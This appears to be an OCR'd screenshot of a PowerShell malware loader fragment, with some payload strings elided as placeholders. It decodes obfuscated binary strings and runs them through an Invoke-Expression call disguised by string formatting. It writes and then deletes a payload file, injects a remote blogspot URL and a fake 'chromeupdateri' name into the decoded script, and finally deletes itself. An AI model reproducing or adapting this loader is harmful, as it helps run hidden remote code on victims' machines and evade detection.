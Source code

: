 ``` powershell
        return $asciiText
    }
    catch {
        return "Error: Invalid binary input"
    }
}
#AM
$Phudigum = (Similar obfuscated binary string)

(asceeeeeeeeeeeeeeee $Phudigum) | .('{1}{Â°Â°Â°}'.replace('Â°Â°Â°','0')-f'!','I').replace('!','ex')



(asceeeeeeeeeeeeeeee $bulgumchupitum)  | .('{1}{Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°}'.replace('Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°Â°','0')-f'!','I').replace('!','ex')

Remove-Item -Path "$DINDHAM\KAMASUTRAKIM.~!!@#!!!!!!!!!!!!!!!~" -Recurse -Force

Remove-Item -Path "$DINDHAM" -Recurse -Force

#the File will start cumiing to your pca

'@
[IO.File]::WriteAllText("$DINDHAM\\KAMASUTRAKIM.~!!@#!!!!!!!!!!!!!!!~", $lulli)

$lulli | .('{1}{Â°Â°Â°Â°Â°}'.replace('Â°Â°Â°Â°Â°','0')-f'!','I').replace('!','ex')

$koaskodkwllWWW = (Another long obfuscated binary string)


$kimahoter = asceeeeeeeeeeeeeeee $koaskodkwllWWW
$krokale = "213"
$moawk = "chromeupdateri"
#variable
$ASJDWWKKK1 = "n4n2"
$asksodkasodkwV2 = "mrm9"
$ripplessw = 'htljan62024.blogspot.com' + '//////////a' + 't' + 'o' + 'm.xml'
$kimahoter = $kimahoter.Replace('mynsexi', $krokale)
$kimahoter = $kimahoter.Replace('Tnamesexi', $moawk)
$kimahoter = $kimahoter.Replace('linkcomsexi', $ripplessw)
$kimahoter = $kimahoter.Replace('x8', $ASJDWWKKK1)
$kimahoter = $kimahoter.Replace('g0', $asksodkasodkwV2)
$kimahoter | .('{1}{Â°Â°Â°Â°Â°}'.replace('Â°Â°Â°Â°Â°','0')-f'!','I').replace('!','ex')





$scriptPath = $MyInvocation.MyCommand.Path

# Check if the script path exists
if (Test-Path $scriptPath) {
    # Try to delete the script
    try {
        Remove-Item -Path $scriptPath -Force
        Write-Output "Script has been deleted successfully."
    } catch {
        Write-Error "Failed to delete the script. Error: $_"
    }
} else {
    Write-Error "Script path does not exist."
}
```